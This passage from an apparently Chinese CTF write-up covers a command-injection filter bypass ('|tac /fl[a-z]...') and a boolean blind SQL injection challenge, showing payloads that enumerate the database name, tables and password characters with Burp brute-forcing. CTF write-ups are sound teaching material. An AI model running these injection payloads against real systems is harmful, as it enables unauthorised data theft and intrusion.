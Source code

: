**排除数字和字母后只剩以下符号可用
-./:[]{|} 空格**

"|"没 ban，可以放在开头结束前面的 curl，然后拼接我们自己的系统命令

flag 关键字过滤可以用"[]"正则匹配绕过

**paylaod：
?file=|tac /fl[a-z]ggggggg.txt**

![](https://s2.loli.net/2024/03/07/1qItky4BCg7GJHe.png)

### 1z_Ssql

布尔盲注

![](https://s2.loli.net/2024/03/07/uZfO2QxI7wGaErc.png)

先摸索了一下，发现 union 和=号过滤

过滤等于号，改用 > 号即可

union 过滤就用不了联合查询注入了，考虑布尔盲注

**admin' and length(database()) > 1#爆破当前数据库长度**

![](https://s2.loli.net/2024/03/07/ayCFQdEWUMjJ9LH.png)

爆到 6 报错，说明当前数据库长度为 6

继续爆库名

从第一位开始，从 a 字母开始

**admin' and substr(database(),1,1) > 'b' #第一位为b
admin' and substr(database(),2,1) > 't' #第二位为t**

后面爆出当前库名字就是出题人名字：**bthcls**

附件拿到两个字典，应该是表和列的，使用 bp 来爆破

**admin' and substr((select §xx§ from bthcls.§xx§ limit 0,1),1,1)>'a' #**

![](https://s2.loli.net/2024/03/07/Ed6bmg59KJwAvux.png)

根据返回长度找到对应表 列

![](https://s2.loli.net/2024/03/07/eahXgWJVBZPMFmj.png)

得到 **bthcls.users.password 有值**

爆数据，字典为 32-127 纯数字（可打印字符的 ascii 十进制值）

**admin'and ascii(substr((select group_concat(password)from bthcls.users limit 0,1),1,1))>§32§ #**

![](https://s2.loli.net/2024/03/07/VwDmhk4XSsIZPb1.png)

得到第一位的 asciii 码十进制为 119
